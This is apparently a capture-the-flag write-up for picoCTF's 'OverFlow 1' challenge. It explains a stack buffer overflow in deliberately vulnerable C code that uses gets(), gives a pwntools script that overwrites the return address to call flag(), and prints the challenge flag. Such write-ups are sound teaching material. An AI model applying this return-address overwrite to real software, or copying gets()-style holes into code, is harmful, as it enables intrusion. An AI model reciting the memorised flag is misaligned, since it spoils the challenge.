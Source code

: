 # OverFlow 1

## description

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](./vuln)? You can find it in /problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a on the shell server. [Source](./vuln.c).

## solution

We can see that the ```vuln()``` function takes user input and stores it in a char array with a buffer size of 64.
There's also a flag() function that will print the flag if we can call it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

To call the flag function, we can overwrite the return address of the vulnerable function.
Consider the structure of the call stack:

```
Local variables
EBP
Arguments
Return Address
```

Because the stack grows downwards, anything we write thats longer than the space allocated for local variables will overwrite EBP then, arguments, then the return address.
In this case, we aren't concerned with arguments.

We can see that the buffer size of the char array in ```vuln()``` is 64.
Some more space is reserved for other local variables, but we can start inputting 64 bytes, followed by some recognisable pattern, such as AAAABBBBCCCCDDDD...

Given this input, the program prints 0x44444444 as the return address.
We can also check the value of EBP using GDB and see that it is 0x43434343, from here we could infer that, because there were no arguments pushed to this stack, the next characters would be the return address.

A total of 80 bytes were required to completely overwrite the return address, including 76 bytes of padding, and a new 32-bit address.
By replacing the value 0x44444444 that's currently present in our input with the address of ```flag()```, we can redirect the program to the desired function.

We can use a tool like GDB or Radare2 to print a list of functions and find the address of the flag function.
In this case, it is 0x080485e6.

## exploit script

Using what we had discovered in the steps prior, we know that we need to send the program 76 bytes, followed by the address.
I'm using pwntools as usual to connect to the process, and I'm printing the address using the p32() function, which will automatically format it in little endian.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 76).encode() + p32(0x080485e6))
vuln.recvline()

print("done")
vuln.interactive()
```

Flag: ```picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}```

